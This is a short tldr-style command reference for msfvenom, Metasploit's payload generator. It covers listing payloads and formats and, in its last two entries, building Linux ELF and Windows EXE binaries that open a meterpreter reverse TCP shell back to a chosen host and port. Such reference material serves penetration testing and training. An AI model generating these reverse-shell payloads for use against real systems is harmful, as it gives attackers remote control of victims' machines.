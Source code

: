 # msfvenom
> Manually generate payloads for metasploit
> More information: <https://github.com/rapid7/metasploit-framework/wiki/How-to-use-msfvenom>
- **List payloads:**
msfvenom -l payloads
- **List formats:**
msfvenom -l formats
- **Show payload options:**
msfvenom -p `payload` --list-options
- **Create an ELF binary with a reverse TCP handler:**
msfvenom -p linux/x64/meterpreter/reverse_tcp LHOST=`local_ip` LPORT=`local_port` -f elf > `path/to/binary`
- **Create an EXE binary with a reverse TCP handler:**
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=`local_ip` LPORT=`local_port` -f exe > `path/to/binary.exe`
